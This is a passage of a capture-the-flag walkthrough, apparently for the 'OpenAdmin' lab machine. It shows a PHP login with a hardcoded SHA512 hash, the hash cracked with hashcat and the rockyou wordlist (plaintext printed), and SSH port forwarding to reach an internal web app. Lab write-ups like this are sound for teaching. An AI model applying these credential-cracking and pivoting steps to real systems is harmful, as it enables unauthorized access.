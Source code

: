 ```
</html>
```

## SHA512 Disclosure in The Source Code of The Internal Web Application
```
jimmy@openadmin:/var/www/internal$ cat index.php
...
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
...
```

### Cracked The SHA512 Using Hashcat Wordlist Attack
Used rockyou.txt and best64 rule to crack the SHA512.

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1:Revealed
```

## Port Forwarding via SSH
```
ssh -l jimmy 10.10.10.171 -L 0.0.0.0:8088:127.0.0.1:52846
```

```
$ netstat -tulpn | grep 8088
tcp        0      0 0.0.0.0:8088            0.0.0.0:*               LISTEN      57945/ssh
```

## Internal Web Application
![internal_web_app](./screenshots/internal_web_app.png)
